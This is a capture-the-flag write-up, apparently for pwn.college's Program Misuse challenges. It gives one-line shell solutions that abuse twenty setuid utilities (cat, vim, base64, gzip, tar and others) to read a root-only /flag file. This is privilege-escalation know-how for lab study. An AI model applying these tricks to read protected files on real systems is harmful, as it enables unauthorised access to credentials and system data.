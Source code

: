 



## Name: Collection of Program Misuse Challenges
**Category:** Program Misuse

### Description

This is a collection of the Program Misuse challenges.

**Babysuid1**
```sh
cat /flag
```
**Babysuid2**
```sh
more /flag
```

**Babysuid3**
```sh
less /flag
```

**Babysuid4**
```sh
head /flag
```

**Babysuid5**
```sh
tail /flag
```

**Babysuid6**
```sh
sort /flag
```

**Babysuid7**
```sh
vim /flag
```

**Babysuid8**
```sh
emacs /flag
```

**Babysuid9**
```sh
nano /flag 
```

**Babysuid10**
```sh
rev /flag | rev
```

**Babysuid11**
```sh
od -An -c /flag 
```

**Babysuid12**
```sh
hd /flag
```

**Babysuid13**
```sh
xxd /flag
```

**Babysuid14**
```sh
base32 /flag | base32 -d
```

**Babysuid15**
```sh
base64 /flag | base64 -d
```

**Babysuid16**
```sh
split /flag
cat new_file
```

**Babysuid17**
```sh
gzip -c /flag | gunzip
```

**Babysuid18**
```sh
bzip2 -c /flag | bzip2 -d
```

**Babysuid19**
```sh
zip flag.zip /flag && cat flag.zip
```

**Babysuid20**
```sh
tar --group hacker --owner hacker -c /flag | tar -x && cat flag 
```

---
<a href="/pwn-college/main.md" class="btn">Back to home</a>
